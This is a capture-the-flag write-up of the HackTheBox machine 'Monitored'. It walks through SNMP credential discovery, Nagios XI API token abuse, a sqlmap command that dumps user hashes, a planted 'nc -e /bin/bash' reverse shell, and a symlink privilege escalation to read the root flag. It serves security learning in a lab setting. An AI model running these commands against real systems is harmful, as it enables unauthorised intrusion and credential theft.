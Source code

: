 # HackTheBox - Monitored



## Enumeration

We start by running our nmap scan which reveals a HTTPS server, LDAP and SSH ports open.

```
# Nmap 7.94SVN scan initiated Sat May 11 12:42:43 2024 as: nmap -sCV -oN nmap/output 10.10.11.248
Nmap scan report for 10.10.11.248
Host is up (0.029s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 61:e2:e7:b4:1b:5d:46:dc:3b:2f:91:38:e6:6d:c5:ff (RSA)
|   256 29:73:c5:a5:8d:aa:3f:60:a9:4a:a3:e5:9f:67:5c:93 (ECDSA)
|_  256 6d:7a:f9:eb:8e:45:c2:02:6a:d5:8d:4d:b3:a3:37:6f (ED25519)
80/tcp  open  http     Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.56 ((Debian))
|_http-title: Nagios XI
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.56 (Debian)
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Not valid before: 2023-11-11T21:46:55
|_Not valid after:  2297-08-25T21:46:55
Service Info: Host: nagios.monitored.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May 11 12:42:59 2024 -- 1 IP address (1 host up) scanned in 15.95 seconds

```

We add "monitored.htb" and "nagios.monitored.htb" to our /etc/hosts and navigate to the webpage.&#x20;

<figure><img src=".gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

We don't find much but realise we have a service, so search for "Nagios XI Exploit" and find an authenticated SQLi vulnerability, CVE-2023–40931. Before we can use this, we need to become authenticated and stumble across an article which indicates default credentials that may be in use, although after trying various combinations, have no luck.&#x20;

{% embed url="https://support.nagios.com/forum/viewtopic.php?t=544" %}

We reached an end-point here and was the first learning curve for myself. By default, the nmap scan we're searching for is related to TCP scans and therefore useful services running on UDP ports won't be checked for. To progress further with this box we need to check UDP ports, and by which we find an SNMP port open, which through our default scripts and enumeration flags reveals some credentials for us.

```
nmap -oN nmap/udp_scan --top-ports 10 -sCVU 10.10.11.248
```

The outputs from this scan are quite long but we notice our important section here:

<figure><img src=".gitbook/assets/GPCxv6oCGJ.png" alt=""><figcaption></figcaption></figure>

We try our credentials, svc:XjH7VCehowpR1xZB and are greeted with this error, which is different to what we had received when trying the default credentials mentioned earlier.

<figure><img src=".gitbook/assets/W8KSUbRYRY.png" alt=""><figcaption></figcaption></figure>



## User

We're guessing that the account is disabled so we want to see if there is any kind of insecure login for Nagios XI. Performing our own research and trying multiple things we stumble across an article that states this command should work, when replaced with our details

`curl -XPOST -k -L 'http://YOURXISERVER/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=nagiosadmin&password=YOURPASS&valid_min=5'`

We need to change the data passed through CURL, so username to "svc" and the password to "XjH7VCehowpR1xZB". Running this command we get an auth token, so we follow up with our second command which shows us how this can be used.&#x20;

<figure><img src=".gitbook/assets/CAJAw3wBH9.png" alt=""><figcaption></figcaption></figure>

`curl -k -L 'https://nagios.monitored.htb/nagiosxi/includes/components/nagioscore/ui/trends.php?createimage&host=localhost&token=`c2871f996602b0b52ea9244cd151438f188f6b11`' > image.png`

We should then be able to request the index page with our token and be authenticated. Sure enough, following some slight issues we successfully load the page and can move forwards.

<figure><img src=".gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

We grab our cookie from the developer tab of Firefox and begin enumerating through SQLMap. Through our enumeration we dump credentials with

`sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" --cookie "nagiosxi=5rjvbhig4h1bq3hh8rfnqroqe1" --dbms=MySQL --level=1 --risk=1 -D nagiosxi -T xi_users --dump` &#x20;

We gain hashes amongst a variety of other information although attempting to crack these hashes is unsuccessful. So we can attempt to use the "nagiosadmin" API key.&#x20;

<figure><img src=".gitbook/assets/8wOULqt6OE.png" alt=""><figcaption></figcaption></figure>

We find a chained remote root through SQLi leading to RCE and begin analysing the request, since we've already achieved SQLi through a seperate vulnerability.&#x20;

{% embed url="https://www.exploit-db.com/exploits/44560" %}

<figure><img src=".gitbook/assets/yatrhhcyAV (1).png" alt=""><figcaption></figcaption></figure>

We look through the exploit and notice that the RCE phase is achieved through a variety of flags, so craft our own CURL command. We create our command send it, with us receiving a response indicating that our account has been created.

<figure><img src=".gitbook/assets/zjBiTw7d2L.png" alt=""><figcaption></figcaption></figure>

We log in and have administrative access. A while later we find a core config manager where we can add our commands, so we go ahead and do so, using a reverse shell as our command to add.&#x20;

<figure><img src=".gitbook/assets/z86pFSvO6G.png" alt=""><figcaption></figcaption></figure>

We fill in our shell, using `nc -e /bin/bash 10.10.14.149 9999` and then "run" our command, giving us a shell!

<figure><img src=".gitbook/assets/J9FvGnnVIA.png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/k9rmA0I8DU.png" alt=""><figcaption></figcaption></figure>



## Root

We check our privileges and realise we have a large amount of sudo privileges. Specifically noticing that we have multiple admin permissions for scripts related to Nagios XI so start by performing more enumeration on these scripts.

<figure><img src=".gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

We start with "getprofile.sh" and look at what this script does. The script starts by taking an input in the form of a folder, sets up a basic folder setup and then saves the bottom of files from various locations into this zip folder. There's a large list of files that the script writes to with one of particular interest being "phpmailer.log". We check the permissions and we own this file, due to our previous knowledge we know that we can abuse symlinking capabilities to get the root flag.&#x20;

<figure><img src=".gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

We start by symlinking the location of the root flag to the file we can write, and then checking our permissions to ensure it is linked, which it is. We hope that by symlinking the root flag to this file, when the script we are running, executes as the root user, it will read the root flag and store it in phpmailer.log since it has successfully read the file.

<figure><img src=".gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

We then run the script, using our username as a profile.

<figure><img src=".gitbook/assets/jAUXyF1vHp.png" alt=""><figcaption></figcaption></figure>

The script runs and we find the output, unzipping it.

<figure><img src=".gitbook/assets/ZoNrlg0CFI.png" alt=""><figcaption></figcaption></figure>

We're realistically looking for the contents of one file, which is phpmailer.log since this will be storing our flag, sure enough we find the file and opening it, gets us our root flag.

<figure><img src=".gitbook/assets/MGjWVBv0ZY.png" alt=""><figcaption></figcaption></figure>



And that's our box, this was an incredibly challenging box and took quite some time to solve, but the learning opportunities were amazing.
